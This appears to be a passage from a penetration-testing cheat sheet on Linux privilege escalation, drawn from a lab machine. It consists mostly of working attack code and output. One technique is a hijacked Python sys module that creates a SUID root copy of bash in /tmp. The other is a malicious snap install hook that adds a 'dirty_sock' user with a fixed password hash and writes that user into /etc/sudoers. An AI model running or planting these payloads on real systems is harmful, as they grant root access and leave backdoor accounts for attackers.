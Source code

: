 Search for a library, create a copy in `/tmp` and execute commands.

```text
some.py

import sys
sys.exit(10)
```

We can create a sys.py file on `/tmp`.

```text
import os
def exit(a):
        os.system("cp /bin/bash /tmp/rev")
        os.system("chmod u+s /tmp/rev")
```

Finally open the backdoor.

```text
/tmp/rev -p
rev-4.4# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

### Snap install

```text
User user may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

When we find the following, we can install any malicious packet, so we will add our malicious personal crafted snap packet.

{% embed url="https://ubuntu.com/tutorials/create-your-first-snap\#3-building-a-snap-is-easy" caption="Create your first snap, useful to install the requeriments" %}

{% embed url="https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html" caption="Example used in dirty\_sock exploit" %}

```text
mkdir privesnap
cd privesnap
snapcraft init

touch snap/hooks/install
```

We need to create a malicious `snap/hooks/install` file, and modify `snap/snapcraft.yaml`

{% tabs %}
{% tab title="install" %}
```text
#!/bin/bash

# dirty_sock:dirty_sock
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
{% endtab %}
